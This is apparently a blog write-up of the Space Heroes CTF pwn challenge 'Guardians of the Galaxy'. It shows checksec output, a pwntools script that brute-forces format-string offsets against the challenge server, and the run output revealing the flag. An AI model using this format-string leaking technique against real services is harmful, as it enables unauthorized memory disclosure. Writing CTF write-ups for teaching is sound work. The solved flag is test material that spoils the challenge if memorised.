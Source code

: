 ```yaml
---
title: "shctf/pwn: Guardians of the Galaxy"
date: 2022-04-06 10:33:54
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- format-string
description: "Learn how to brute force a format string attack on ELF binaries! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Guardians of the Galaxy\"."
permalink: ctfs/shctf/pwn/guardians-of-the-galaxy/
thumbnail: /asset/banner/banner-guardians.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<div class="box">
Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format? <code>nc 0.cloud.chals.io 12690</code><br>
<b>Author</b>: GlitchArchetype<br>
<b>Files</b>: <a href="/asset/shctf/guardians">guardians</a>
</div>

<figure class="highlight console">
  <figcaption><span>checksec.sh</span><a target="_blank" rel="noopener"
      href="https://github.com/slimm609/checksec.sh"><span style="color:#82C4E4">github link</span></a></figcaption>
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">checksec guardians</span></span><br><span class="line">[<font color="#277FFF"><b>*</b></font>] &apos;/home/kali/ctfs/shctf/pwn/guardians-of-the-galaxy/guardians&apos;</span><br><span class="line">    Arch:     amd64-64-little</span><br><span class="line">    RELRO:    <font color="#5EBDAB">Full RELRO</font></span><br><span class="line">    Stack:    <font color="#D41919">No canary found</font></span><br><span class="line">    NX:       <font color="#5EBDAB">NX enabled</font></span><br><span class="line">    PIE:      <font color="#5EBDAB">PIE enabled</font></span><br></pre>
            </td>
        </tr>
    </table>
</figure>

Let's look at what happens when you run that binary given to us.

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">./guardians</span> </span><br><span class="line">Error, please message admins with &#x27;infinity_error&#x27;.</span><br></pre>
            </td>
        </tr>
    </table>
</figure>


This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash"><span class="built_in">touch</span> flag.txt &amp;&amp; <span class="built_in">echo</span> <span class="string">&quot;FLAGHERE&quot;</span> &gt; flag.txt</span></span><br><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">./guardians</span></span><br><span class="line">Does Quill manage to win the dance battle?</span><br></pre>
            </td>
        </tr>
    </table>
</figure>

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python3/pwntools script here to achieve this loop:

{% codeblock guardians.py lang:py https://gist.github.com/jktrn/abced39a897e40c196dc2eb3348e1db9 github gist link %}
from pwn import *
for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.recvS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
{% endcodeblock %}

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">python3 exp.py</span></span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 0...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 1...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 2...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 3...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 4...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 5...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 6...</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Does Quill manage to win the dance battle?</span><br><span class="line">    </span><br><span class="line">    Oh no, Ronano has seen through the distraction!</span><br><span class="line">    shctf&#123;im_distracting_you&#125;</span><br></pre>
            </td>
        </tr>
    </table>
</figure>


<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
